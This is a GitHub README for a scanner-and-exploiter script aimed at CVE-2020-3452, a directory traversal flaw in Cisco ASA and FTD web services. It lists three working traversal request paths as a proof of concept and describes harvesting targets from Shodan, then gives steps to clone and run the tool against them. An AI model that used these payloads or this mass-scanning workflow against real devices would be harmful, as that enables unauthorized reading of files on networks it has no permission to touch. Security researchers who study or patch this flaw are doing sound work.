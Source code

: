 # CISCO CVE-2020-3452 Scanner & Exploiter
> backup https://github.com/darklotuskdb/CISCO-CVE-2020-3452-Scanner-Exploiter

## POC
```bash
 /+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=+CSCOE+/portal_inc.lua
 /+CSCOT+/translation-table?type=mst&textdomain=/+CSCOE+/portal_inc.lua&default-language&lang=../
 /+CSCOT+/translation-table?type=mst&textdomain=/+CSCOE+/session.js&default-language&lang=../
```

It will scan the target servers from shodan and then find the vulnerable servers to CVE-2020-3452 (Cisco Adaptive Security Appliance and FTD Unauthorized Remote File Reading).

## About 

A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and read sensitive files on a targeted system.

The vulnerability is due to a lack of proper input validation of URLs in HTTP requests processed by an affected device. An attacker could exploit this vulnerability by sending a crafted HTTP request containing directory traversal character sequences to an affected device. A successful exploit could allow the attacker to view arbitrary files within the web services file system on the targeted device.

The web services file system is enabled when the affected device is configured with either WebVPN or AnyConnect features. This vulnerability cannot be used to obtain access to ASA or FTD system files or underlying operating system (OS) files.

## Prerequisites

Install [Shodan-Command-Line-Interface](https://cli.shodan.io/)

```
1. pip install -U setuptools
2. easy_install shodan
3. easy_install -U shodan
4. shodan init YOUR_API_KEY
```

## Usage

Linux

```
1. git clone https://github.com/darklotuskdb/CISCO-CVE-2020-3452-Scanner-Exploiter.git
2. cd CISCO-CVE-2020-3452-Scanner-Exploiter/
3. chmod +x SnE-CVE-2020-3452.sh
4. ./SnE-CVE-2020-3452.sh
```

### Screenshot
![SnE-CVE-2020-3452](https://user-images.githubusercontent.com/29382875/103662913-816c9e00-4f96-11eb-9d35-53a9767589e2.png)

## Reference

* https://twitter.com/aboul3la/status/1286012324722155525
* https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86

## Donation
[BuyMeACoffee](https://www.buymeacoffee.com/darklotus) if you like my work

## About Me

* **DarkLotus** - *Cyber Security Researcher* - [DarkLotusKDB](https://github.com/darklotuskdb)

### Social Media Handles
* [Twitter](https://twitter.com/darklotuskdb)
* [Medium](https://medium.com/@darklotus)
* [Linkedin](https://www.linkedin.com/in/kamaldeepbhati/)
* [Instagram](https://www.instagram.com/kamaldeepbhati/)
